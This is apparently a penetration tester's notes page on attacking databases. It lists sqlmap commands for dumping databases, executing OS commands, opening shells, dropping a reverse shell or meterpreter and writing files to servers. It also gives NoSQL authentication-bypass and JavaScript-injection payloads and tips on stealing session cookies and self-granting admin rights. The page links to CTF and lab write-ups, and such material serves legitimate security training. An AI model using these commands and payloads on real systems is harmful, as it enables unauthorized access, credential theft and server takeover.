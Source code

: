 # Basic Reconnaissance

# Tips

- If a database has a table of session one can try to steal cookies or other credentials from the table to authenticate as another user.
- If one is in a database with write access and there are roles assigned to users, give the current user admin rights.

# DBMS Enumeration
- [[3306 - MySQL]]
- [[1433 - MSSQL]]
- [[1521, 1522–1529 - Oracle and ODAT]]
- [[27017, 27018 - MongoDB]]
- [[6379 - Redis]]
- [[SQLite Enumeration]]
  

# SQL Injection Cheat Sheets

- [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



# Universal Structures

```
information_schema Metadata and all the databases and tables
information_schema.schemata Databases
information_schema.tables Tables
information_schema.columns Columns
```


# sqlmap

## GET
Discover vulnerabilities in databases as well as dump info

```sh
sqlmap -u <URL> --batch
```

## POST

```sh
# With request file
# Add request into a log file (either from Burp or Chrome)
sqlmap -r <request_file> --batch

sqlmap -u <URL> --data "username=*&password=*"
```


## Web sockets

```sh
sqlmap -u ws://<ip><port> --data <data>
```

## Commands

**To get data from any query use the `--dump` option**

```sh
# Get all databases
sqlmap -u <URL> --dbs

# Set DBMS
sqlmap -u <URL> --dbms="dbms"

# Database
sqlmap -u <URL> -D <database>

# Tables
sqlmap -u <URL> --tables -D <database>

## Specify table
sqlmap -u <URL> -D <database> -T <table>

# Columns
sqlmap -u <URL> --columns -D <database> -T <table>
```

## Shell

To get upload web interface look for `file stager` otherwise look for `backdoor` in the output.

```sh
# Exec command
sqlmap -u <URL> --os-cmd <command>

# Simple Shell
sqlmap -u <URL> --os-shell

# Dropping a reverse-shell / meterpreter
sqlmap -u <URL> --os-pwn
```

## File Upload

```sh
sqlmap -u <url> --data <data> --file-write <local_file> --file-dest <destination>
```

  

# NoSQL

## Authentication Bypass

```
DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

JSON
{"username":{"$regex": "admin*"},"password":{"$ne":""}} # If part of name is known then regex can be known the query the rest
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

## List items (hidden tables)
```
Payload: '+||+'1'=='1 
GET /filter?category=Gifts'+||+'1'=='1 
```

## SSJI

```
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```


## NoSQLMap

Since the tool is using a menu based system, I'll just link the GitHub.
[Documentation and Release](https://github.com/codingo/NoSQLMap)


# References​
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell)
- [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
- [https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)
- [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)
